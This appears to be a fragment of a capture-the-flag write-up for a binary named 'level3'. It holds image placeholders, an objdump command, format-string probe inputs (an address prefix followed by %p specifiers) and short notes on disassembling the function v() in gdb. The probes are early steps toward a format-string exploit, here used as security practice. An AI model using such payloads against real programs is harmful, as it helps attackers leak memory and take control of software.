



objdump -t ./level3 | grep "m"

\x8c\x98\x04\x08 %4$p %519$p %520$p %521$p %522$p %523$p %524$p %525$p %526$p %527$p %528$p

AAAA %4$p %519$p %520$p %521$p %522$p %523$p %524$p %525$p %526$p %527$p %528$p


```
lets check the binary using gdb
```

```
main makes a simple call to the function v() lets disassemble it
```
